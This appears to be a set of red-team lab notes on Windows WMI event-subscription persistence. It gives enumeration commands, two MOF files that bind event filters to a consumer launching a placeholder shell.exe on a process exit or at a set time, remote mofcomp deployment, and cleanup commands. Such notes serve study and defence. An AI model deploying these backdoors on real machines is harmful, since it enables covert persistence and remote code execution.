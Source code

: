 # Living off the Land

TODO: Consult cybereason blog post to replicate the attacks (refer to the links)

## 01 - Command Prompt

Query information about the namespaces for the WMI functions that will help us to make a persistence mechanism.

- List the Root namespace

`C:\> wmic /namespace:\\root path __namespace`

## 02 - Powershell

Query information about the namespaces for the WMI functions that will help us to make a persistence mechanism.

- List the Root namespace

```powershell
PS C:\> Get-CimClass

PS C:\> Get-CimClass -Namespace ROOT/CIMV2 | Where-Object CimClassName -like Win32*

PS C:\> Get-WMIObject -namespace "root" -class "__Namespace" | select Name

PS C:\> Get-CimInstance -namespace "root" -class "__Namespace" | Select-Object Name
```

- List the names for the Subscription

```powershell
PS C:\> Get-WMIObject -Namespace root\Subscription -list

PS C:\> Get-CimInstance -Namespace root\Subscription -list
```

- Display the information of the __EventFilter class and it's ability to trigger any `MSFT_SCMEventLogEvent`

```powershell
PS C:\> Get-WMIObject -Namespace root\Subscription -Class __EventFilter

PS C:\> Get-CimInstance -Namespace root\Subscription -Class __EventFilter
```

- Same thing with the __EventConsumer that has the `SCM Event Log Consumer` for an event that will happen

```powershell
PS C:\> gwmi -Namespace "root\Subscription" -Class __EventConsumer

PS C:\> Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding
```

`$ cat terminatecalcapptorunshell.mof`

---

```
#pragma namespace ("\\\\.\root\\subscription)

instance of CommandLineEventConsumer as $Cons {
    Name = "TestConsumer"
    CommandLineTemplate="C:\\path\\to\shell.exe";
};

Instance of __EventFilter as $Filt {
    Name = "TestFilter";
    Query = "Select * From __InstanceDeletionEvent WITHIN 5 "
            "Where TargetInstance ISA \ "Win32_Process\" "
            "AND TargetInstance.Name = \"win32calc.exe\"";
    QueryLanguage = "WQL";
    EventNamespace = "root\\subscription";
};

Instance of __FilterToConsumerBinding {
    Filter = $Filt;
    Consumer = $Cons;
}
```

`C:\> mofcomp terminatecalcapptorunshell.mof`

`$ cat wmitimedevent.mof`

---

```
#pragma namespace ("\\\\.\root\\subscription)  
  
instance of CommandLineEventConsumer as $Cons {  
    Name = "TestConsumer"  
    CommandLineTemplate="C:\\path\\to\shell.exe";  
};  
  
Instance of __EventFilter as $Filt {  
    Name = "TestFilter";  
    Query = "Select * From __InstanceModificationEvent "  
            "Where TargetInstance ISA \ "Win32_LocalTime\" "  
            "AND TargetInstance.Hour = 1 "  
            "AND (TargetInstance.Minute = 24 "  
            "OR TargetInstance.Minute = 25 "  
            "OR TargetInstance.Minute = 26) "  
            "AND TargetInstance.Second = 30 ";  
    QueryLanguage = "WQL";  
    EventNamespace = "root\\cimv2";  
};  
  
Instance of __FilterToConsumerBinding {  
    Filter = $Filt;  
    Consumer = $Cons;  
}
```

- Execute the MOF script.

`C:\> mofcomp wmitimedevent.mof`

- You can execute it remotely without touching the disk.

`C:\> mofcomp -N \\<IP>\root\subscription wmitimedevent.mof`

### 2.1 - Clean up the backdoors

- Query the namespace for `__EventFilter`

```powershell
PS C:\> Get-WMIObject -namespace root\subscription -class __EventFilter

PS C:\> Get-CimInstance -namespace root\subscription -class __EventFilter
```

- Delete the name of the Filter

`C:\> wmic /namespace:"\\root\subscription" path __EventFilter where name="TestFilter" delete`

```powershell
PS C:\> Get-WMIObject -namespace root\subscription -class __EventFilter -Filter "Name='TestFilter'" | Remove-WMIObject -Verbose

PS C:\> Get-CimInstance -namespace root\subscription -class __EventFilter -Filter "Name='TestFilter'" | Remove-WMIObject -Verbose
```

- Query to double check if it's deleted

```powershell
PS C:\> Get-WMIObject -namespace root\subscription -class __EventFilter

PS C:\> Get-CimInstance -namespace root\subscription -class __EventFilter
```

- Delete the name of the Filter

`C:\> wmic /namespace:"\\root\subscription" path __FilterToConsumerBinding where Filter="__EventFilter.Name='TestConsumer'" delete`

TODO: Convert this to Get-CimInstance

```powershell
PS C:\> Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path like 'TestConsumer'" | Remove-WMIObject
```

---
## References

- [Pentestlab Blog: Persistence WMI Event Subscription](https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/)

- [Cybdefnp: Malware Persistence in WMI](https://cybdefnp.wordpress.com/2020/07/05/malware-persistence-in-wmi/)

- [PDQ: Powershell Guide Get-CimInstance and Get-WMIObject](https://www.pdq.com/blog/powershell-guide-get-ciminstance-and-get-wmiobject/)

- [in.security: An intro into abusing and identifying WMI Event Subscriptions for persistence](https://in.security/2019/04/03/an-intro-into-abusing-and-identifying-wmi-event-subscriptions-for-persistence/)

- [SS64 Get-CimInstance](https://ss64.com/ps/get-ciminstance.html)

- [FuzzySecurity: Windows Userland Persistence Fundamentals](https://fuzzysecurity.com/tutorials/19.html)